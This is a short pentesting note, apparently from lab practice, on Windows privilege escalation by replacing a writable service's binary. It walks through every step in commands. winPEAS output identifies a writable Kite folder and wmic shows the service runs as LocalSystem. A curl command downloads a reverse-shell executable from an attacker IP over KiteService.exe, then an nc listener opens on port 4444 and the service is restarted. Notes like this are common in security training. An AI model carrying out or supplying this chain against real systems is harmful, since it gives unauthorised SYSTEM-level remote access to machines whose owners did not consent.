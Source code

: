 public:: true

- If [[winPEAS]] tells you that there are services ran by privileged users for which you can swap the called binary and then restart the service.
- WinPEAS returns something like this
  ```
  [...]
  Installed Applications --Via Program Files/Uninstall registry--
  Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
      C:\Program Files\Common Files
      C:\Program Files\desktop.ini
      C:\Program Files\FreeSWITCH(chris [AllAccess])
      C:\Program Files\Internet Explorer
      C:\Program Files\Kite(chris [WriteData/CreateFiles])
  	[...]
  ```
- Get a list of services along with users who ran them and the pathname of the file executed
  ```cmd
  > wmic service get name,startname,pathname,state
  [...]
  KiteService	C:\program files\Kite\KiteService.exe	LocalSystem	Running
  [...]
  ```
- Stop the service
  ```powershell
  stop-service -name kiteservice
  ```
- Swap the binary with a reverse shell
  ```powershell
  curl "http://192.168.45.202:8000/rev_cmd_4444.exe" -o "C:\program files\Kite\KiteService.exe"
  ```
- Start a listener on Kali on port *4444*
  ```bash
  > rlwrap nc -lnvp 4444
  ```
- Start the service
  ```powershell
  start-service -name kiteservice
  ```